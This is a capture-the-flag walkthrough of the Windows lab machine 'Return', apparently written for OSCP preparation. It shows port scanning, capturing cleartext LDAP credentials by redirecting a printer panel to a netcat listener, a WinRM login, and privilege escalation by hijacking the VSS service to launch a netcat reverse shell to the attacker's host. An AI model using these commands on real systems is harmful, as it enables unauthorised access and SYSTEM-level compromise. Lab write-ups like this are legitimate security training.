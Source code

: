 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Difficulty:** Easy  
- **Key Techniques:**  
  - Printer admin panel → LDAP creds  
  - WinRM → svc‑printer shell  
  - Server Operators → service hijack → SYSTEM  

---

## 🕵️ Recon

```bash
# Full TCP scan
nmap -p- --min-rate 10000 -oA nmap/return-alltcp 10.10.11.108

# Top ports + default scripts
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 \
  -sC -sV -oA nmap/return-services 10.10.11.108
```

- **IIS 10.0** on port 80 → “HTB Printer Admin Panel”  
- **LDAP** (389/636), **Kerberos** (88), **SMB** (445), **WinRM** (5985)  

---

## 🖨️ Shell as **svc-printer**

### 1. Leak LDAP credentials via admin panel

- Browse to `http://10.10.11.108/settings.php`  
- Change “Printer Hostname” to your IP:`http://10.10.14.6`  
- Listen on port 389:
  ```bash
  nc -lnvp 389
  ```
- Submit → the appliance attempts an LDAP bind to you, leaking:
  ```
  Username: return\svc-printer
  Password: 1edFg43012!!
  ```

### 2. WinRM / SMB access

```bash
# Verify WinRM
crackmapexec winrm 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'

# Shell via Evil-WinRM
evil-winrm -i 10.10.11.108 \
  -u svc-printer -p '1edFg43012!!'
```

- **User flag**:
  ```powershell
  type C:\Users\svc-printer\Desktop\user.txt
  # c0118264************************
  ```

---

## 👑 Shell as **SYSTEM**

### 1. Enumerate privileges & groups

```powershell
whoami /priv     # sees SeBackup, SeRestore, SeLoadDriver, …
whoami /groups   # member of BUILTIN\Server Operators
```

> **Server Operators** can _start/stop services_ on the host.

### 2. Hijack Windows service

1. **Upload** `nc64.exe` to `C:\ProgramData\nc64.exe`.  
2. **Reconfigure** the `VSS` service to run your payload:

   ```powershell
   sc.exe config VSS binpath=\
     "C:\Windows\System32\cmd.exe /c C:\ProgramData\nc64.exe -e cmd 10.10.14.6 443"
   ```
3. **Start** it (it will time out, but your shell persists):

   ```powershell
   sc.exe start VSS
   ```

4. **Catch your SYSTEM shell**:

   ```bash
   nc -lnvp 443
   # → nt authority\system
   ```

- **Root flag**:
  ```powershell
  type C:\Users\Administrator\Desktop\root.txt
  # 2e3771d0************************
  ```

---

## 🎉 Summary

1. **Printer Admin** → LDAP bind → `svc-printer:1edFg43012!!`  
2. **WinRM** → `svc-printer` shell  
3. **Server Operators** → modify `VSS` service → SYSTEM shell  
